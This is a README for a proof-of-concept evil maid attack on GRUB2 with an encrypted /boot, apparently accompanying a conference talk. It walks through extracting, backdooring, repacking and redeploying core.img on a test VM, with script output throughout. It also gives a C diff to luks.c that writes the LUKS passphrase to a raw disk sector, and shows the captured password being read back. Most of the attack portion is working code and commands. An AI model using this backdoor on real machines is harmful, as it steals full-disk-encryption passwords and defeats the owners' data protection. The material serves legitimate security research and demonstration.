

## PoC: Implementing evil maid attack on encrypted /boot

TLDR: a proof of concept that backdoors stage 1.5 (core.img) of grub2 bootloader to dump the full disk encrpytion password to disk. I gave a talk about it at GPN20. You can find my slides in the slides directory. The recordings can be watchd [here](https://www.youtube.com/watch?v=5HCZXWfIk5Y) and [here](https://media.ccc.de/v/gpn20-32-poc-implementing-evil-maid-attack-on-encrypted-boot).

## walkthrough

1. Extract core.img

```bash
kmille@linbox:grub-luks file test-vm/disk.img                     
test-vm/disk.img: DOS/MBR boot sector
kmille@linbox:grub-luks python extract-core.py                                  
Cleaning working directory working-dir
Reading from disk image test-vm/disk.img
core.img starts at sector 1. Seeking 512 bytes
Size of core.img in sectors: 0xd5
Dumped extraced core.img to working-dir/core/core-extracted.img
kmille@linbox:grub-luks 
```

2. Analyze core.img

```bash
kmille@linbox:grub-luks python analyze-core.py working-dir/core/core-extracted.img
Let's analyse working-dir/core/core-extracted.img \o/
Cleaning working directory working-dir
Looking for diskboot.img in working-dir/core/core-extracted.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Parsing diskboot.img in working-dir/core/core-extracted.img
grub_pc_bios_boot_blocklist: sector_next_image=0x2 size=0x6a segment=0x820

Parsing lzma_decompress.img in working-dir/core/core-extracted.img
lzma_decompress.img: decompressor_compressed_size=0xc82a decompressor_uncompressed_size=0x1d4d8

Looking for lzma_decompress.img in working-dir/core/core-extracted.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Decompressed data starts at offset 0xd20
Extracted compressed blob at offset 0xd20 to 'working-dir/modules-compressed.img'
Executing 'xzcat --lzma1 --format=raw < working-dir/modules-compressed.img > working-dir/modules-decompressed.img'
Decompressed blob to 'working-dir/modules-decompressed.img'

Parsed kernel_size (0x7244)
Parsing grub_module_info32 structure at offset 0x7244
grub_module_info32: magic=0x676d696d offset=0xc total_module_size=0x16294 
Dumped kernel to working-dir/kernel.img

Parsing modules starting at offset 0x7250
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1b28  md5=f1977ffc6da2c59f52e06e1a2b7e1277 filename=modules/mods-debian11/luks.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
kmille@linbox:grub-luks
```

3. Backdoor core.img (important: you have to run analyze-core.py before!)

```bash
kmille@linbox:grub-luks python backdoor-core.py 
You first have to run `python analyze-core.py <core.img>* to backdoor <core.img>
Backdooring grub modules
Parsing modules starting at offset 0x7250
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1b28  md5=f1977ffc6da2c59f52e06e1a2b7e1277 filename=modules/mods-debian11/luks.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
Loaded 'mods-debian11/disk.mod' and added it as first module
Replacing luks.mod with malicious one
Creating working-dir/patched-modules-decompressed.img'
Creating working-dir/patched-modules-compressed.img'
Executing 'xz -z --lzma1 --format=raw < working-dir/patched-modules-decompressed.img > working-dir/patched-modules-compressed.img'
Patching diskboot image
Looking for diskboot.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Patched sector length: we need 0x6b sectors
Patching decompress image
compressed_size=0xca3c decompressed_size=0x1dfa0
Looking for lzma_decompress.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Done patching decompress image in working-dir/core/patched-core.img
kmille@linbox:grub-luks 
```

4. Analyzing it again (now disk.mod is loaded as a dependency as the first module, luks.mod was replaced by our malicious one)

```bash
kmille@linbox:grub-luks python analyze-core.py working-dir/core/patched-core.img
Let's analyse working-dir/core/patched-core.img \o/
Cleaning working directory working-dir
Looking for diskboot.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Parsing diskboot.img in working-dir/core/patched-core.img
grub_pc_bios_boot_blocklist: sector_next_image=0x2 size=0x6b segment=0x820

Parsing lzma_decompress.img in working-dir/core/patched-core.img
lzma_decompress.img: decompressor_compressed_size=0xca3c decompressor_uncompressed_size=0x1dfa0

Looking for lzma_decompress.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Decompressed data starts at offset 0xd20
Extracted compressed blob at offset 0xd20 to 'working-dir/modules-compressed.img'
Executing 'xzcat --lzma1 --format=raw < working-dir/modules-compressed.img > working-dir/modules-decompressed.img'
Decompressed blob to 'working-dir/modules-decompressed.img'

Parsed kernel_size (0x7244)
Parsing grub_module_info32 structure at offset 0x7244
grub_module_info32: magic=0x676d696d offset=0xc total_module_size=0x16d50 
Dumped kernel to working-dir/kernel.img

Parsing modules starting at offset 0x7250
grub_module: type=0 size=0x960   md5=d6e4404857d9d60af94f99c4378f56fe filename=modules/mods-debian11/disk.mod
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1c90  md5=e3114b08acc11fb1603e2a66919ec924 filename=modules/mods-patched/luks-backdoored-working-build-on-debian.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
kmille@linbox:grub-luks 

```

5. Deploy malicious core.img

```bash
kmille@linbox:grub-luks cd test-vm 
kmille@linbox:test-vm ./deploy-core-img.sh
+ DEPLOY_IMG=../working-dir/core/patched-core.img
+ dd if=disk.img of=mbr.dd bs=512 count=1
1+0 records in
1+0 records out
512 bytes copied, 0.00048986 s, 1.0 MB/s
+ dd if=/dev/zero of=disk.img bs=512 count=2048 conv=notrunc
2048+0 records in
2048+0 records out
1048576 bytes (1.0 MB, 1.0 MiB) copied, 0.0199295 s, 52.6 MB/s
+ dd if=mbr.dd of=disk.img conv=notrunc
1+0 records in
1+0 records out
512 bytes copied, 0.000161547 s, 3.2 MB/s
+ dd if=../working-dir/core/patched-core.img of=disk.img bs=512 seek=1 conv=notrunc
107+1 records in
107+1 records out
55132 bytes (55 kB, 54 KiB) copied, 0.000691911 s, 79.7 MB/s
+ sync
+ echo done
done
kmille@linbox:test-vm 
```

6. reboot & win



```bash
kmille@linbox:test-vm ./show-dumped-password.sh 
+ dd if=disk.img bs=512 skip=2023 count=1
+ xxd
00000000: 3132 3300 0000 0000 0000 0000 0000 0000  123.............
00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000f0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000100: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000110: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000120: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000130: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000150: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000170: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000190: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001f0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
+ echo done
done
kmille@linbox:test-vm 
```

### setup

#### kvm cheat sheet
- virsh list --all
- virsh start grub-luks --console
- virsh console grub-luks
- virsh shutdown grub-luks
- virsh destroy grub-luks #force shutdown
- virsh undefined grub-luks # delete vm, disk remains
- virt-manager
- https://computingforgeeks.com/virsh-commands-cheatsheet/
- "To make use of a serial console, just use console=ttyS0 on the kernel command line, and systemd will automatically start a getty on it for you."

#### installation
- create vm with raw disk
- use 'guided encrypted lvm' in the installer
- encrypt /boot partition
    - https://cryptsetup-team.pages.debian.net/cryptsetup/encrypted-boot.html
    - use 2.2 Moving /boot to the root file system


### snippets

#### Backdoor code (grub-core/disk/luks.c will give you luks.mod)

```diff
diff --git a/grub-core/disk/luks.c b/grub-core/disk/luks.c
index 7e83d69..968ef23 100644
--- a/grub-core/disk/luks.c
+++ b/grub-core/disk/luks.c
@@ -356,6 +356,17 @@ luks_recover_key (grub_disk_t source,
       return grub_error (GRUB_ERR_BAD_ARGUMENT, "Passphrase not supplied");
     }
 
+
+  grub_printf_ ("Thanks for your password: %s\nWriting it to disk\n", passphrase);
+  grub_disk_t disk0;
+  disk0 = grub_disk_open ("hd0");
+  if (!disk0) {
+    grub_printf_ ("Could not open disk, grub_errno=%d\n", grub_errno);
+  } else {
+      grub_disk_write_weak (disk0, 2023, 0, sizeof(passphrase), &passphrase);
+      grub_disk_close (disk0);
+  }
+
   /* Try to recover master key from each active keyslot.  */
   for (i = 0; i < ARRAY_SIZE (header.keyblock); i++)
     {

```

#### Get grub2 modules for Arch Linux

```bash
mkdir mods-arch && cd mods-arch
wget https://archlinux.org/packages/core/x86_64/grub/download
tar -xf download usr/lib/grub/i386-pc
```

#### Get grub2 modules for Debian
```bash
# Debian mdolues (part of the grub-pc-bin package)
https://packages.debian.org/bullseye/grub-pc-bin
wget http://ftp.us.debian.org/debian/pool/main/g/grub2/grub-pc-bin_2.04-20_amd64.deb
dpkg -X grub-pc-bin_2.04-20_amd64.deb -X extracted # on debian
ar x grub-pc-bin_2.04-20_amd64.deb # in general
```

#### Build grub2 by hand
```bash
git clone https://git.savannah.gnu.org/git/grub.git && cd grub
git checkout grub-2.04
./bootstrap
./configure
make
fd grub-mkimage
file grub-mkimage
./grub-mkimage -v --directory '/usr/lib/grub/i386-pc' --prefix '/boot/grub' --output 'my-core.img' --format 'i386-pc' --compression 'none' --config '/boot/grub/i386-pc/load.cfg' 'ext2' 'cryptodisk' 'luks' 'gcry_rijndael' 'gcry_rijndael' 'gcry_sha256' 'part_msdos' 'biosdisk'
```

#### enable grub2 debug messages
- https://lists.gnu.org/archive/html/help-grub/2016-06/msg00039.html

#### (un)packing lzma data
```bash
xzcat --lzma1 --format=raw < core-compressed > core-decompressed
xz -d --lzma1 --format=raw < core-compressed > core-decompressed
xz -z --lzma1 --format=raw < core-decompressed > b
```

#### Some details about the size of core.img

The core.img created by grub-mkimage is not the same you will find on the victim's disk. For a successful attack we need to extract core.img. So what's the size of core.img? We know that it starts at the second sector of the disk.

The size of core.imgs stored at the beginning of core.img (as the number of the required disk sectors, stored at the end of diskboot.img). This is the code (boot_img points to the start of core.img, GRUB_DISK_SECTOR_SIZE is 512) of grub-image:

util/mkimage.c

```c
   {
      struct grub_pc_bios_boot_blocklist *block;
      block = (struct grub_pc_bios_boot_blocklist *) (boot_img
                                                      + GRUB_DISK_SECTOR_SIZE
                                                      - sizeof (*block));
      block->len = grub_host_to_target16 (num);

      /* This is filled elsewhere.  Verify it just in case.  */
      assert (block->segment
              == grub_host_to_target16 (GRUB_BOOT_I386_PC_KERNEL_SEG
                                        + (GRUB_DISK_SECTOR_SIZE >> 4)));
    }
```

include/grub/offsets.h

```c
#ifndef ASM_FILE
struct grub_pc_bios_boot_blocklist
{
  grub_uint64_t start;
  grub_uint16_t len;
  grub_uint16_t segment;
} GRUB_PACKED;
#endif
```

So block is located at offset 512 - 8 - 2 - 2 = 500 (0x1f4). Let's check it:

```bash
xxd /boot/grub/i386-pc/core.img |less
...
000001e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001f0: 0000 0000 0200 0000 0000 0000 6a00 2008  ............j. .
00000200: ea1c 8200 0000 0000 2ac8 0000 d8d4 0100  ........*.......
```

block->len has the value 6a0. You need one additional sector (not explicitly mentioned here) that holds diskboot.img (512 bytes). Calculation:
(0x6a+1)*512=54784

```bash
root@debian:~/tmp/grub2-2.04# /bin/ls /boot/grub/i386-pc/core.img -l
-rw-r--r-- 1 root root 54602 Jun  1 09:40 /boot/grub/i386-pc/core.img

So there is enough space. BUT: there is a difference between core.img created by grub-mkimage and stage1.5/core.img which is stored on disk:

root@debian:~/tmp/grub2-2.04# dd if=/dev/vda bs=512 count=1 skip=1 2>/dev/null | xxd
...
000001f0: 0000 0000 0200 0000 0000 0000 d500 2008  .............. .
```

Now the value  for block->len is 0xd5 which is much bugger. The reason is that grub-install adds redundancy to handle bad disk sectors. 

```bash
root@debian:~# grub-install --help
...
      --no-rs-codes          Do not apply any reed-solomon codes when
                             embedding core.img. This option is only available
                             on x86 BIOS targets.
...
```

This is why the extracted core.img is much bigger than core.img in /boot. How I handle this: decrompressing the lzma compressed stuff always succeeds (\*shrug\*). Then I parse every module until a module with type 3 appears. If you read the code of grub-mkimage you will notice that a module with type 3 is the last module added to core.img. You could also use the size field in the grub_module_info32 struct.
